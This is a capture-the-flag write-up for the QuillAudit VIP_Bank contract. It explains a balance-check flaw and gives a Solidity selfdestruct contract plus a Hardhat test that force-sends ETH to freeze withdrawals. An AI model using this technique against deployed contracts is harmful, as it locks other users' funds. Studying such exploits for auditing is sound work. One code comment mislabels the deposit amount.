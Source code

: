 # QuillAudit CTF VIP_Bank

## Vulnerability:

The vulnerability of the VIP_Bank contract lies with the withdraw function. The withdraw function, instead of checking for the withdrawing amount to be less than 0.5 ETH, it checks for the contract balance. The contract balance is checked using this.balance. It means that if the contract balance goes over 0.5 eth, nobody will be able to withraw their balance.

There are 2 ways which can result in the contract balance to be greater than 0.5 ETH.

1. The VIP members deposit their amounts which total to be greater than 0.5 ETH.
2. The contract can be sent ETH directly.

The only way to send Ether to the VIP_Bank contract is to send it when a selfdestruct method is called from another contract. This is because VIP_Bank does not have a fallback or receive function.

## Attack Steps:

### Step 1:

Create an Attack contract like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

contract VIP_attack {
    function attack(address addr) external payable {
        selfdestruct(payable(addr));
    }
}
```

### Step 2:

Call the attack function with the address of the VIP_Bank contract as the parameter and msg.value should be greater than 0.5 ETH

### Step 3:

The VIP_Bank contract balance will be updated to a number greater than 0.5 ETH and nobody can withraw their balances.

## POC:

```jsx
require("@nomiclabs/hardhat-truffle5");
const { anyValue } = require("@nomicfoundation/hardhat-chai-matchers/withArgs");
const { ethers, contract } = require("hardhat");
const truffleAssert = require("truffle-assertions");
const VIP = artifacts.require("VIP_Bank.sol");
const ATT = artifacts.require("VIP_attack.sol");
contract("Splits", (accounts) => {
  let [alice, bob, carey] = accounts;
  let contractInstance;
  beforeEach(async () => {
    contractInstance = await VIP.new();
  });
  describe("Tests", () => {
    it("Normal workflow", async () => {
      //add as a VIP member
      await contractInstance.addVIP(bob);
      //checking if bob is a VIP now
      console.log(await contractInstance.VIP(bob));
      //depositing 0.04 eth
      await contractInstance.deposit({ from: bob, value: 50 });
      //checking the balance of bob in the mapping balances
      console.log(await contractInstance.balances(bob));
      //checking if the balance can be withdrawed
      await contractInstance.withdraw(50, { from: bob });
      console.log(await contractInstance.balances(bob));
    });
    it("Attack: Sending a value greater than 0.5 eth to the contract", async () => {
      await contractInstance.addVIP(bob);
      await contractInstance.deposit({ from: bob, value: 50 });
      //attack starts here
      //new attack contract instance
      attackInstance = await ATT.new();
      //calling the attack function with 1eth which is greater than 0.5eth
      await attackInstance.attack(contractInstance.address, {
        from: alice,
        value: 1000000000000000000,
      });
      var balance = (await contractInstance.contractBalance()).toString();
      console.log(balance);
      //bob tries to withdraw, but tx reverts
      await truffleAssert.reverts(contractInstance.withdraw(50, { from: bob }));
    });
  });
});
```
